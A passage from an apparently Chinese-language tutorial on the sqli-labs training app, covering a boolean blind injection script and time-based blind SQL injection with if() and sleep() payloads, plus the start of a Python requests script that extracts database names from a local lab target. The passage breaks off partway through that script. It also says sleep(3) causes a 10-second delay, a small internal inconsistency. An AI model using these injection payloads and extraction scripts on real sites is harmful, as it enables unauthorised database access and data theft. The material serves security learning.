 ```

if __name__ == "__main__":
    # print("获取数据库长度")
    # length = get_database_length()
    # print("获取数据库名")
    # length_name = get_database_length2(length)
    # print("获取表长度")
    # table_length = get_table_length()
    # print("获取表名")
    # table_name = get_table_name(table_length)
    # print("获取列长度")
    # column_length = get_column_length()
    # print("获取列名")
    # column_name = get_column_name(column_length)
    print("获取字段")
    id = get_column_id()
```
![sql5-id](/images/sql/sql5-id.png)

### 时间盲注
&emsp;&emsp;当做到第九关的时候，测试闭合符不管输入什么页面显示的东西都是一样的，这个时候就得考虑时间盲注了，我们就可以使用sleep()来使页面延迟，从而肉眼分辨真假，时间盲注和布尔盲注两种没有多大的区别，只不过时间盲注多了<font color=red>if和sleep函数</font>,if(a,sleep(3),1)如果a结果为true，那么执行sleep(3)页面延迟10秒，反之执行1，无延迟。 
&emsp;&emsp;测试是否可以执行时间盲注的方法，判断闭合符的方法也是一样的，修改1=1，如果假和真都无延迟就说明是闭合符的问题，一般只要真有延迟就说明闭合符正确，
```
?id=1' and if(1=1,sleep(5),1)--+
```
&emsp;&emsp;行，既然知道了，那么大致的payload应该也就出来了。既然有延迟，就说明浏览器的timeout就会有增加，我们就只需要调整一下布尔函数的py就可以了。
```
import requests
url = 'http://sql-labs:3601/Less-9/'  # 目标URL
def get_database_length():
    global url  # 全局变量
    length = 1
    while (1):
        payload = f"?id=1' and if(length((select database()))={length},sleep(3),1)--+"
```